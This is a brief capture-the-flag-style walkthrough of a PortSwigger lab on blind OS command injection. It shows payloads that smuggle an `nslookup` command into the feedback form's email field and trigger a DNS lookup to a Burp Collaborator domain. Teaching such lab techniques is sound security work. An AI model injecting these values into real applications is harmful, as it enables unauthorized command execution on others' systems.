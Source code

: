 # Blind OS command injection with out-of-band interaction

## This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

## The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response.

## it is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

## To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

---

### step 1

click on submit feedback and intercept the request

![](images/lab4_0.jpg)

![](images/lab4_1.jpg)


step 2

add `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`

burp collaborator => `ne5hvt6bna30e2cdp7h3vkix3o9fx5lu.oastify.com`

final payload 
`email=x||nslookup+x.ne5hvt6bna30e2cdp7h3vkix3o9fx5lu.oastify.com||`


![](images/lab4_2.jpg)

![](images/lab4_3.jpg)

step 3 

`email=test1%40email.com||nslookup+test1%40email.com.ne5hvt6bna30e2cdp7h3vkix3o9fx5lu.oastify.com||`
replace email with payload and forward request
go to  burp collaborator you will see some DNS if you can't see click on poll now and lab will solved

![](images/lab4_4.jpg)

![](images/lab4_5.jpg)


![](images/lab4_6.jpg)

